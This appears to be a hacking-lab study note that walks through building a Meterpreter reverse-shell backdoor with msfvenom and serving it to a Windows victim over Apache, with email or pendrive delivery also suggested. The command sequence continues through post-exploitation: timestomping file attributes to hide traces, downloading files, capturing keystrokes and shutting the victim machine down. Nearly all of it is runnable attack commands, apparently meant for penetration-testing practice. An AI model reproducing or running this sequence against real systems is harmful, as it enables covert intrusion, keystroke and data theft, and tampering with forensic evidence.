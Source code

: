 - Open Terminal
	> msfvenom -p windows/meterpreter/reverse_tcp --paltform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.10.13 -f exe >Desktop/Backdoor.exe

	- This will generate **Backdoor.exe**, a malicious file, on **Desktop**.
	- now we copy this into the shared directory or just send it via email or pendrives
		> cp /root/Desktop/Backdoor.exe /var/www/html/share
		> service apache2 start (to share the file)
		> msfconsole (to open metasploit framework)
		> use exploit/multi/handler (to handle exploits launched outside metasploit framework)
		> set payload windows/meterpreter/reverse_tcp
		> set LHOST 10.10.10.13
		> show options (to check the listening port)
		> exploit -j -z
		
		- now in the windows machine, enter http://#hostip/share in any browser
		- download Backdoor.exe and run it
		- now back in linux host machine
		- start meterpreter session
			> sessions -i 1
			> sysinfo (Issuing this command displays target machine information such as computer name, OS, and domain)
			> ipconfig (This displays the victim machine’s IP address, MAC address, and other information)
			> getuid (to display that the Meterpreter session is running as an administrator on the host)
			> pwd (to check current working directory)
			
			- lets say you read a file
			- While performing post-exploitation activities, an attacker tries to access files to read their contents. Upon doing so, the MACE (modified, accessed, created, entry) attributes immediately change, which indicates to the file user or owner that someone has read or modified the information.
			- To leave no trace of these MACE attributes, use the timestomp command to change the attributes as you wish after accessing a file.
				> timestomp filename.txt -v (to view MACE attributes)
				- This displays the created time, accessed time, modified time, and entry modified time
				- To change MACE attributes
					> timestomp filename.txt -m "02/11/2022 08:10:03" (this command changes the modified value (-m) of filename.txt)
					- Similarly, you can change the **Accessed** (**-a**), **Created** (**-c**), and **Entry Modified** (**-e**) values of a particular file.
						> timestomp filename.txt -v (to confirm the changes)
						
						> cd C:/ (to go to C directory)
						> pwd (to check current working directory)
						> download filename.extension (to download any file from remote machine to host machine)
						> search -f filename.extension (to search any file) 
						
		- Now that you have successfully exploited the system, you can perform post-exploitation maneuvers such as key-logging.
			> keyscan start (to start capturing all keyboard input from target machine)
			> keyscan_dump (This dumps all captured keystrokes)
			> idletime (To check how much time the user has been idle on the remote system)
			
				- You can also type **shutdown** and press **Enter** to shut down the victim machine after performing post-exploitation.
				